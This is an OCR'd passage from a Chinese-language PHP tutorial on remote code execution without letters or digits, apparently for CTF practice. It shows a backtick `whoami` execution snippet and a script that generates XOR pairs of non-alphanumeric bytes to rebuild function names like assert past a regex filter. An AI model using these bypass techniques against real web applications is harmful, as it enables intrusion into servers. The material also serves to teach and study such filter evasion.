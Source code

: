 ```php
<?= `whoami`?>
```

# 三、方法浅析

基本所有的思路都是利用无字符构造出相关字符如assert,来进行执行函数。

## 0x01 异或（^/xor)

### 法一：需要用到两个脚本：

1. **异或字符.php**

```php
<?php

/*author yu22x*/

$myfile = fopen("xor_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[a-z0-9]/i'; //根据题目给的正则表达式修改即可
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)^urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);
```
